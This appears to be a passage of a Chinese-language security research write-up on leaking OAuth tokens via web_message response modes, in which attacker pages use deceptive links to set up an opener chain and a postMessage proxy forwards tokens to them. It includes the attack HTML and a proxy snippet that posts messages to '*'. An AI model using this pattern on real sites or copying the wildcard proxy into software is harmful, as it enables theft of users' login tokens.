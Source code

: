 
## 其他关于url泄露的思路

使用任何可用的响应模式使URL泄漏可能是一个潜在的方法，但是我目前还无法在野外找到漏洞


### 域上的一个页面，它将任何postMessage路由到它的打开器


因为所有web_message响应类型都不能验证源的任何路径，所以有效域上的任何URL都可以接收带有令牌的postMessage。如果域中的任何页面上都有某种形式的postMessage-listener代理，它接收发送给它的任何消息并将所有内容发送到它的打开器，那么我可以创建一个双窗口。


攻击者第1页:

```html
<a href=" " onclick="a=window.open('attacker2.html'); return false;">Accept cookies</a >
```

攻击者第2页:

```html
<a href=" " onclick="b=window.open('https://accounts.google.com/oauth/...?', '', 'x'); location.href = 'https://example.com/postmessage-proxy'; return false;">Login to google</a >
```

`https://example.com/postmessage-proxy` 会有一些类似的内容:

```JavaScript

// Proxy all my messages to my opener:
window.onmessage=function(e) { opener.postMessage(e.data, '*'); }
```

我可以使用任何web_message-response模式将令牌从OAuth-provider向下提交到有效的起源https://example.com，但端点将进一步将令牌发送到opener，即攻击者的页面。
这个流程似乎不太可能，它需要两次点击:一次是在攻击者和网站之间创建一个打开器关系，第二次是启动拥有合法网站作为oauth -弹出的打开器的oauth -流。
oauth -提供者将令牌发送到合法的原点:


![img_15.png](img_15.png)

合法的源程序有它的打开器的postmessage -代理:


![img_16.png](img_16.png)


这会导致攻击者获得令牌:

